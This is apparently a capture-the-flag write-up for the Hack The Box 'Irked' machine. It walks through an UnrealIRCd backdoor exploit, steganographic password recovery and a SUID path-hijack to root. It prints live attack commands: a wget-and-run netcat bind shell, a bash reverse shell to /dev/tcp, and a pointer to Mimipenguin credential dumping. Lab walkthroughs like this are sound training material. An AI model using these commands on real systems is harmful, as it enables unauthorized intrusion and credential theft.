

`Box: Linux`
`Level: Easy`

### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Nmap Enumeration`](#`Nmap%20Enumeration`)
3. [`Web Says IRC Almost Setup`](#`Web%20Says%20IRC%20Almost%20Setup`)
4. [`UnrealIRCd 3.2.8.1 - Backdoor Command Execution`](#`UnrealIRCd%203.2.8.1%20-%20Backdoor%20Command%20Execution`)
5. [`Getting Shell for djmardov`](#`Getting%20Shell%20for%20djmardov`)
	1. [`LinPEaS findings`](#`LinPEaS%20findings`)
	2. [`Stegnography to extract password using steghide`](#`Stegnography%20to%20extract%20password%20using%20steghide`)
6. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`ltrace to trace library calls for binaries`](#`ltrace%20to%20trace%20library%20calls%20for%20binaries`)
	2. [`Dump Login Passwords From Current Linux Users - Mimipenguin`](#`Dump%20Login%20Passwords%20From%20Current%20Linux%20Users%20-%20Mimipenguin`)

### `Box Info`
```
Irked is a pretty simple and straight-forward box which requires basic enumeration skills. It shows the need to scan all ports on machines and to investigate any out of the place binaries found while enumerating a system.
```

### `Nmap Enumeration`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.117                     
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33023/udp6  status
|   100024  1          37649/udp   status
|   100024  1          50983/tcp   status
|_  100024  1          56925/tcp6  status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
50983/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

### `Web Says IRC Almost Setup`


### `UnrealIRCd 3.2.8.1 - Backdoor Command Execution`

A simple nmap script would help me get the initial shell.
```
# nmap -d -p6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command='wget http://www.javaop.com/~ron/tmp/nc && chmod +x ./nc && ./nc -l -p 4444 -e /bin/sh' 10.10.10.117
PORT     STATE SERVICE REASON
6697/tcp open  ircs-u  syn-ack ttl 63
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Final times for host: srtt: 39842 rttvar: 31547  to: 166030
```

In the above nmap command, the `--script-args` execution is kind of a race condition so I put a shell code. 

At this point I started the NetCat Listener on port 4444 and run the above Nmap command again with a different `--script-args` to catch the shell
```
# nmap -p6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command='bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' 10.10.10.117
PORT     STATE SERVICE
6697/tcp open  ircs-u
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).

Nmap done: 1 IP address (1 host up) scanned in 23.62 seconds

```

On the NetCat side
```
# nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.117] 42225
bash: cannot set terminal process group (622): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ 
```

### `Getting Shell for djmardov`

###### `LinPEaS findings`
```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                       Linux version 3.16.0-6-686-pae (debian-kernel@lists.debian.org) (gcc version 4.9.2 (Debian 4.9.2-10+deb8u1) ) #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08)

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices      
UUID=85e17c08-fee3-451a-a1f8-c95346ddc46c /               ext4    errors=remount-ro 0       1                                                            
UUID=29d1ae3e-562d-4323-b58c-2d48799f9632 none            swap    sw              0       0
/dev/sr0        /media/cdrom0   udf,iso9660 user,noauto     0       0

╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Sep  8  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)

╔══════════╣ Searching installed mail applications
exim 
sendmail

╔══════════╣ Backup folders
drwxr-xr-x 2 root root 4096 Oct  4 01:22 /var/backups                                                                                                    total 4916
-rw------- 1 root root       989 May 14  2018 group.bak
-rw------- 1 root shadow     834 May 14  2018 gshadow.bak
-rw------- 1 root root      2161 May 14  2018 passwd.bak
-rw------- 1 root shadow    1314 May 16  2018 shadow.ba
```
###### `Stegnography to extract password using steghide`
While enumerating, I found the `.backup` file which throws a random password. Trying out this password on user `djmardov` didn't work.
```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

However, I say this that this is unusual way and I didn't understand the learning curve of this particular portion. The above passphrase should used to extract the password for the user `djmardov` from the `irked.jpg` image on the home page. I wouldn't have guessed it in my dreams. but any ways see below the chain of commands to get the password for user `djmardov`
```
# steghide info irked.jpg
"irked.jpg":
  format: jpeg
  capacity: 1.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "pass.txt":
    size: 17.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

The `steghide info` command confirms that the presence of `pass.txt` file embedded to the `irked.jpg`. 

```
# steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
```

The next `steghide extract -sf` command with the passphrase `-p` extracted the data and throw it into pass.txt
```
# cat pass.txt 
Kab6h+m+bbp2J:HG
```
That's the password for user `djmardov`. You can now ssh and get user flag.

```
# ssh djmardov@10.10.10.117                                 
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```
Get your User flag

###### `If Clear command doesn't work use export TERM=xterm`
```
ircd@irked:/tmp$ export TERM=xterm
export TERM=xterm
ircd@irked:/tmp$ clear
clear
.......This will clear screen............
```
### `Privilege Escalation`

```
8K Sep  8  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-sr-x 1 root root 9.3K Apr  1  2014 /usr/bin/X
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary!)
```

Running `/usr/bin/viewuser` returns the following output.
```
jmardov@irked:/tmp$ /usr/bin/viewuser /tmp/listusers
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-10-05 00:28 (:0)
djmardov pts/0        2024-10-05 00:44 (10.10.14.8)
/tmp/listusers: 1: /tmp/listusers: root: not found
```

###### `ltrace to trace library calls for binaries`
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Irked.htb]
└─# ltrace ./viewuser 
__libc_start_main([ "./viewuser" ] <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                             = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                             = 37
system("who"ringbuffer tty7         2024-09-28 23:10 (:0)
ringbuffer pts/1        2024-09-28 23:11
ringbuffer pts/3        2024-10-04 01:11
ringbuffer pts/5        2024-09-29 00:44
ringbuffer pts/7        2024-10-01 02:14
ringbuffer pts/9        2024-10-04 01:27
ringbuffer pts/11       2024-10-04 01:21
ringbuffer pts/13       2024-10-04 02:07
ringbuffer pts/17       2024-10-01 21:59
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 0
setuid(0)                                                                                               = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 32512
+++ exited (status 0) +++
```

Looking at the `ltrace` output, notice that the `system("who"` doesn't call the full binary path. Also, the `system("/tmp/listusers.sh") not found`

I simply create the `listusers` in the tmp directory and put the following code in it.
```
djmardov@irked:/tmp$ cat listusers
#!/bin/bash
bash
```
and than run the `viewuser` command again.
```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-10-05 00:28 (:0)
djmardov pts/0        2024-10-05 00:44 (10.10.14.8)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Get your root flag

###### `Dump Login Passwords From Current Linux Users - Mimipenguin`
```
MimiPenguin works similarly to the well-known “mimikatz” for Windows, but is designed for Linux and attempts to dump cleartext credentials from memory from the following applications

    Apache2 (Active HTTP Basic Auth Sessions)
    OpenSSH (Active SSH Sessions - Sudo Usage)
    GDM password (Kali Desktop, Debian Desktop)
    Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)
    VSFTPd (Active FTP Connections)
https://nored0x.github.io/penetration%20testing/Dump-Login-Passwords-From-Current-Linux-Users/
```